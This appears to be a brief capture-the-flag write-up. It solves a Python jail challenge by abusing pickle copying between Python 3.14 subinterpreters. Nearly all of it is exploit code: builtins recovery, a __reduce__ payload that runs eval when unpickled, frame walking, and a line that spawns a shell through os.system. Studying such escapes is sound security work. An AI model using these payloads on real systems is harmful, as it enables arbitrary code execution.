 # Solution

As per <https://docs.python.org/3.14/library/concurrent.interpreters.html#interp-object-sharing>
> By default, most objects are copied with `pickle` when they are passed to another interpreter.

Solution
```python
# Return an object with a __reduce__ method, classic pickle unserialize
(b:=().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__, b['globals']().update({'__builtins__': b}), b['exec']("class PAYLOAD():\n def __reduce__(self):\n  command=\"eval(input('PAYLOAD 2:'))\"\n  return (eval, (command,))"), x:=[], x.append(y.gi_frame.f_back.f_back.f_locals for y in x), z:=[*x[0]], z[0].update({"success":PAYLOAD()}))

# This will run when the `success` variable is un-pickled, in the main interpreter
(exec("threading.Thread = lambda **_:__import__('os').system('sh')"), True)[1]
```